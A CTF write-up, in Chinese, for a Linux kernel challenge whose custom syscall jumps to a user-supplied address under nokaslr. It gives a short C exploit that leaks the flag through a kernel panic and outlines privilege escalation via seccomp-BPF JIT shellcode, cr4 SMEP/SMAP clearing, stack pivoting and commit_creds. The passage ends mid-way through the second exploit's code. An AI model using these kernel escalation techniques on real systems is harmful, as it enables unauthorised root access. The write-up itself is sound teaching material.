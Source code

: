 

這題 qemu 啟動時有加上 `nokaslr`，因此每次啟動時位址都會相同，除此之外還加了一個自己 implement 的 syscall，接收一個位址為參數並且跳上去執行。而有哪些能夠利用的部分？ kernel mode 應該是沒有 one gadget，但是你可以透過 JIT 相關的 feature 來產生自定義的 shellcode 給 kernel 執行 (因為 `nokaslr`)，透過 unset **cr4** 中 smap 與 smep bit 後，再用 `xchg rax, rsp` 等等 stack pivoting 的 gadget，跳到 usermode 執行 ROP 跑 `commit_creds(&init_cred)` 或 `prepare_kernel_cred(NULL)`，最後執行 `system("/bin/sh")` 即可提權成功。



**非預期解為：**

有一個最簡單的解法，直接給 flag 的位址讓 kernel 直接跳過去執行，再透過 panic message 來 leak flag，exploit：

```c
#include <stdio.h>
#include <unistd.h>

unsigned long flag = 0xFFFFFFFF8228B000;

int main()
{
    syscall(1337, flag);
}
```

flag 位址的找法有：

1. `find 0xffff888000000000,0xffffc87fffffffff,"XXXXXX{sample_flag}\n"`

   直接在 qemu 中搜整塊 physical memory 的 mappings

2. 使用此 gdb [plugin](https://github.com/martinradev/gdb-pt-dump) 並執行 `pt -ss "sample_flag"`

雖然這並不是預期解，不過方向簡單明瞭，還滿有趣的。



**預期解為：**

由於 bpf 可以透過 JIT 的方式產生任意 pattern 的 shellcode 並執行，因此是很好地利用點。然而此 kernel 並不能直接使用 unprivilege bpf，若要執行 JIT code 則需找其他 feature，而參考 [kernel doc](https://www.kernel.org/doc/html/latest/userspace-api/seccomp_filter.html) 能知道若在編譯時有加上 `CONFIG_HAVE_ARCH_SECCOMP_FILTER=y`，則可以透過 `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, prog);` 的方式來定義 bpf prog 去處理 syscall，exploit：

```c
#include <errno.h>
#include <stdlib.h>
#include <linux/audit.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <linux/unistd.h>
#include <stddef.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/fcntl.h>
#include <sys/mman.h>

/*
 * Source:
 * https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/filter.h
 * https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/bpf_common.h
 * https://elixir.bootlin.com/linux/latest/source/kernel/sys.c#L2264
 * https://elixir.bootlin.com/linux/latest/source/kernel/seccomp.c#L1798
 * https://elixir.bootlin.com/linux/latest/source/net/core/filter.c#L1403
 * https://elixir.bootlin.com/linux/latest/source/kernel/seccomp.c#L851 (seccomp_attach_filter)
 *
 * Some descriptions:
 * https://www.freebsd.org/cgi/man.cgi?query=bpf&sektion=4&manpath=FreeBSD+4.7-RELEASE
 *
 * Some helpful bps:
```